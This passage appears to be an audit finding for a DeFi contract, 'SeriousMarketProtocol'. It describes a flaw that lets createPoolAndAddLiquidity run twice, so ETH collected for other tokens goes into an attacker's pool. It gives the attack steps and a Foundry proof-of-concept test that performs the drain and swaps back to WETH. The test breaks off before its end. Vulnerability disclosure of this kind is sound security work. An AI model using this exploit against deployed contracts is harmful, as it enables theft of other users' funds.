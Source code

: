 ```solidity
        positionManager.transferFrom(address(this), customNullAddress, tokenId);

        // ...
        return address(pool);
    }
```

However, `createPoolAndAddLiquidity` only sets `tradingEnabled` to false but does not check if the previous value was true. This can be abused by an attacker to lock other tokens' collected ETH into the attacker's pool.

Proof of Concept (PoC):

1. The attacker can create a token, fully fund the token, and then call `createPoolAndAddLiquidity`.
2. After this operation, the attacker donates enough tokens to cover `tokenAmount` to the `SeriousMarketProtocol` contract and triggers `createPoolAndAddLiquidity` for the second time.
   The collected ETH from other tokens will be used to provide liquidity to the attacker's pool.

Coded PoC :

```solidity
    function testAddLiquidityTwice() public {

        uint256 buyAmount = seriousMarket.tradeableSupply();
        uint256 cost = seriousMarket.getEthValueForTradeWithFee(0, int256(buyAmount));
        // this is to mock initial balance inside the market from another token funding
        vm.deal(address(seriousMarket), cost);

        vm.startPrank(ownerAddress);
        vm.deal(ownerAddress, cost);
        console.log("initial eth balance of attacker : ");
        console.log(cost);
        console.log("balance of eth inside market before :");
        console.log(address(seriousMarket).balance);
        seriousMarket.buyToken{value: cost}(address(token), buyAmount, bytes8(0));
        seriousMarket.createPoolAndAddLiquidity(tokenAddress);

        console.log("balance of attacker after first add liquidity :");
        console.log(token.balanceOf(ownerAddress));

        // add liquidity twice
        uint256 reservedSupply = seriousMarket.reservedSupply() * (10 ** 18);
        token.transfer(address(seriousMarket), reservedSupply);
        seriousMarket.createPoolAndAddLiquidity(tokenAddress);
        // swap back to eth
        uint256 swapAmount = token.balanceOf(ownerAddress);
        IV3SwapRouter swapRouter = IV3SwapRouter(swapRouterAddress);
        ERC20(tokenAddress).approve(swapRouterAddress, swapAmount);
        IV3SwapRouter.ExactInputSingleParams memory params = IV3SwapRouter.ExactInputSingleParams({
            tokenIn: tokenAddress,
            tokenOut: wethAddress,
            fee: seriousMarket.poolFee(),
            recipient: ownerAddress,
            amountIn: swapAmount,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });

        uint256 amountOut = swapRouter.exactInputSingle(params);
        console.log("Token balance of attacker after second addLiquidity :");
        console.log(token.balanceOf(ownerAddress));
        console.log("Eth balance of attacker after second addLiquidity :");
        console.log(address(ownerAddress).balance);
        console.log("Eth balance of seriousMarket after second addLiquidity :");
```